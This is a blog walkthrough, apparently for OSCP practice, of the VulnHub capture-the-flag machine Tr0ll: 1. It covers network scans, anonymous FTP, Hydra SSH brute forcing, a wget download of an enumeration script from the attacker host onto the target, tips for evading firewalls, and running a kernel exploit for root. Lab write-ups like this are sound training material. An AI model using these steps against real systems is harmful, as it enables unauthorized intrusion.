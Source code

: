```yaml
---
title: "Tr0ll: 1 Walkthrough"
author: alex
date: Sat 8 Jul 19:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-07-tr0ll-walkthrough
---
```


## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Wireshark
- Linux Exploit Suggester
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.12    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.12
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1-report-writing-information-gathering-enumeration-vulnerability-scanning/#port-scanning)**
{: .prompt-warning }

This way, we get more information about the victim. Let's have a look:

```
Nmap scan report for 192.168.1.12
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)

MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

![FTP](/ftp.png)

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

```bash
get lol.pcap
```
   
![sup3rs3cr3tdirlol](/supersecretdir.png)

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
\n
Sucks, you were so close... gotta TRY HARDER!\n
```

Isn't it obvious? Let's open Firefox and look for: `http://192.168.1.12/sup3rs3cr3tdirlol/`

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

```bash
strings roflmao
```

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

![Strings](/strings.png)

Another directory? Hell yeah! `http://192.168.1.12/0x0856BF/`

More files. This time looks like we get some usernames and a Pass.txt. Let's try to brute force **SSH** with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but **Pass.txt**!

```bash
sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 
```

Note I have made a text document with the usernames. And quickly we find a valid combination:

![Brute Force with Hydra](/hydra.png)

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

```bash
/bin/bash -i
```

## Enumeration

Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the **Linux Exploit Suggester** script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

```bash
sudo service apache2 start
```

Now, in **tr0ll** machine, inside `tmp` folder:

```bash
wget http://192.168.1.23/Enumeration/les.sh
```

Now we should give permissions to the file:

```bash
chmod 777 les.sh
```

And run it:

```bash
./les.sh
```

Now we know that this machine is specifically vulnerable to:

![Linux Exploit Suggester](/exploit.png)

## Exploitation

Now we only need to compile the exploit, give permissions and run it:

```bash
gcc exploit.c -o exploit
chmod 777 exploit
./exploit
```

![Root](/root.png)

And we should see a root shell now! Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

![Proof](/proof.png)
